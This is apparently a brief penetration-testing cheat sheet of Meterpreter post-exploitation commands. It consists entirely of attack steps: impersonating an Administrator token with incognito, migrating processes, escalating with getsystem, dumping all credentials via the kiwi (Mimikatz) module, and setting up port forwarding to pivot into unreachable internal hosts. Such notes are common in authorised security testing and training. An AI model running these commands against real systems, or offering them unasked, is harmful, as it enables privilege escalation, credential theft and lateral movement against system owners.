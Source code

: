 ### Incognito 
```
mtr> load incognito
mtr> list_tokens -u
mtr> impersonate_token APT\\Administrator
```

### Drop token
```
mtr> drop_token
```

### Migrate to x64 process
```
mtr> ps
mtr> migrate <spoolId>
```

### Get user id
```
mtr> getuid
```

### Mimikatz
```
mtr> getsystem
mtr> load kiwi
mtr> creds_all
```

### Port forwarding - the target ip is the host whih can not be reached from the outside of the network
```
mtr> portfwd add –l <listenPort> –p <remotePort> –r <rhost>
```


